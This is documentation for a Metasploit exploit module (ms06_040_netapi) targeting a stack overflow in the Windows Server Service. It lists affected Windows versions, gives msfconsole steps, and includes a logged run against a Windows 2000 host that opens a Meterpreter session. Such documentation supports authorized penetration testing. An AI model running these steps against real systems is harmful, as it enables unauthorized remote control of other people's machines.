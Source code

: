 ## Vulnerable Application

This module exploits a stack buffer overflow in the NetApi32 CanonicalizePathName() function using the NetpwPathCanonicalize RPC call in the Server Service. It is likely that other RPC calls could be used to exploit this service. This exploit will result in a denial of service on Windows XP SP2 or Windows 2003 SP1. A failed exploit attempt will likely result in a complete reboot on Windows 2000 and the termination of all MB-related services on Windows XP. The default target for this exploit should succeed on Windows NT 4.0, Windows 2000 SP0-SP4+, Windows XP SP0-SP1 and Windows 2003 SP0.

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/ms06_040_netapi`
  3. Do: `set RHOSTS [IP]`
  4. Do: `set PAYLOAD [payload]`
  5. Do: `set LHOST [IP]`
  6. Do: `set LPORT [IP]`
  7. Do: `run`

## Scenarios

### A run against Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```
  msf exploit(windows/smb/ms06_040_netapi) > use modules/exploit/windows/smb/ms06_040_netapi
  msf exploit(windows/smb/ms06_040_netapi) > set RHOSTS 192.168.1.2
  msf exploit(windows/smb/ms06_040_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
  msf exploit(windows/smb/ms06_040_netapi) > exploit

    [*] 192.168.1.2:445 - Detected a Windows 2000 target
    [*] 192.168.1.2:445 - Binding to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Bound to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Building the stub data...
    [*] 192.168.1.2:445 - Calling the vulnerable function...
    [*] Started bind TCP handler against 192.168.1.2:4444
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:39603 -> 192.168.1.2:4444) at 2019-12-02 11:48:52 -0700

  meterpreter >
  ```
